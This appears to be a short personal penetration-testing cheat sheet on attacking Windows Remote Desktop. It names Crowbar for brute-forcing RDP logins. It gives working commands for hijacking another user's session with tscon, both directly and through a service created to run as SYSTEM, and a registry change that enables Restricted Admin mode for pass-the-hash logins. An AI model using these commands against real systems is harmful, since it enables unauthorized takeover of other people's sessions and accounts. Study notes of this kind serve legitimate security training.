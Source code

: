 Use [[Crowbar]] to brute force rdp login credentials

# RDP Session Hijacking 
no longer works on server 2019
Use task managers to see what users are online

To impersonate a user without their password, we need SYSTEM privileges
```
PS: query user 
C: tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

another usage
```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon {session-id} /dest:{session-name}"


net start sessionhijack
```

# RDP Pass the Hash
need to enable restricted admin mode
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
[[Pass the Hash (PtH)]]